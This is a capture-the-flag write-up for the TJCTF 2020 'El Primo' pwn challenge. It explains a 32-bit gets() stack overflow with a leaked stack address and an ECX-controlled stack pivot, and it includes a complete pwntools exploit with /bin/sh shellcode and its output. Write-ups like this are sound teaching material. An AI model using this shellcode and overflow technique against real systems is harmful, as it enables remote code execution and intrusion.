

# TJCTF 2020

## El Primo

> 60
>
> My friend just started playing Brawl Stars and he keeps raging because he can't beat [El Primo](primo)! Can you help him?
> 
> `nc p1.tjctf.org 8011`
>
> Written by agcdragon

Tags: _pwn_ _x86_ _bof_ _remote-shell_ _gets_ _shellcode_


## Summary

32-bit stack overflow, shellcode, with a twist.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Some mitigations.  No GOTplay.  ASLR enabled.  Executable stack.

    
### Decompile with Ghidra



Direct and to the point.  Line 15 leaks a stack address (`local_30`), and line 16 is yet another `gets` vulnerability.

So, just put 32 bytes of shellcode in `local_30` and then put the address of `local_30` as the return address, right?  _Wrong._

Just before `main` ends `ESP` is set to what `ECX - 4` references.  So, we'll have to set ECX as well, and fortunately it is popped off the stack.  A stack we control thanks to the leak and `gets`:

```
        000106a8 8d 65 f8        LEA        ESP=>local_10,[EBP + -0x8]
        000106ab 59              POP        ECX
        000106ac 5b              POP        EBX
        000106ad 5d              POP        EBP
        000106ae 8d 61 fc        LEA        ESP,[ECX + -0x4]
        000106b1 c3              RET
```


`local_30` is `0x30` bytes above the return address:

```
             undefined4        EAX:4              <RETURN>
             undefined1        Stack[0x4]:1       param_1 
             undefined4        Stack[0x0]:4       local_res0  
             undefined1        Stack[-0x10]:1     local_10  
             undefined1        Stack[-0x30]:1     local_30
```

So, write out 32 or less bytes of shellcode to `local_30`, then pad with `A`, but leave the last 16 bytes for popping ECX, EBX, EBP, and RET.  But all we really care about is setting ECX to point to the next line in the stack that contains the address of the leak.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./primo')
p = remote('p1.tjctf.org', 8011)

binary = ELF('./primo')

p.recvuntil('hint: ')
_ = p.recvline().strip()
buf = int(_,16)
print('buf:',hex(buf))

shellcode = b'\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x00'

payload  = shellcode
payload += (0x30 - len(shellcode) - 16) * b'A'
payload += p32(buf + 0x30 - 8)
payload += p32(buf)

p.sendline(payload)

p.interactive()
```

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8011: Done
[*] '/pwd/datajerk/tjctf2020/primo/primo'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
buf: 0xffbfbb80
[*] Switching to interactive mode
$ cat flag.txt
tjctf{3L_PR1M0O0OOO!1!!}
```
